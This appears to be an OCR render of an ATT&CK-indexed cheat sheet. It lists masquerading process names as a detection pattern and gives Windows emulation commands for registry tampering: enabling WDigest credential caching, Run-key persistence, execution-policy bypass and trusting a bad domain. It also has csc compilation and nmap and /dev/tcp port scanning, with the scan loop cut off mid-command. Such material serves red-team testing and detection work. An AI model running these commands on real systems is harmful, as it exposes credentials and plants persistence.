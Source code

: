 * *.exe
* \Windows\IME\
* *.exe
* \Windows\addins\
* *.exe
* \ProgramData\
* *.exe
* csrsr.exe
* !=*\Windows\System32\
* csrss.exe
* cssrss.exe
* !=*\Windows\System32\
* explorer.exe
* iexplore.exe
* isass.exe
* lexplore.exe
* !=*\Windows\System32\
* lsm.exe
* lssass.exe
* !=*\Windows\System32\
* mmc.exe
* lsass
* !=wininit.exe
* run32dll.exe
* rundII.exe
* scvhost.exe
* smss.exe
* svchost.exe
* !=services.exe
* svchosts.exe
##T1556: Modify Authentication Process
##T1578: Modify Cloud Compute Infrastructure
##T1112: Modify Registry
* reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
* New-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name T1112 -Value "<script>"
* $key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\bad-domain.com\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
* reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /t REG_DWORD /v HideFileExt /d 1 /f
* reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d calc.exe /f
* Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
* powercmd.exe /c/persistence/misc/disable_machine_acct_change
##T1601: Modify System Image
##T1104: Multi-Stage Channels
##T1026: Multiband Communication
##T1106: Native API
* C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"%tmp%\T1106.exe" /target:exe #{source_file}
%tmp%/T1106.exe
##T1599: Network Boundary Bridging
##T1498: Network Denial of Service
##T1046: Network Service Scanning
* nmap #{host_to_scan}
* for port in {1..65535};
do
  echo >/dev/tcp/192.168.1.1/$port && echo "port $port is open" || echo "port $port is closed" : ;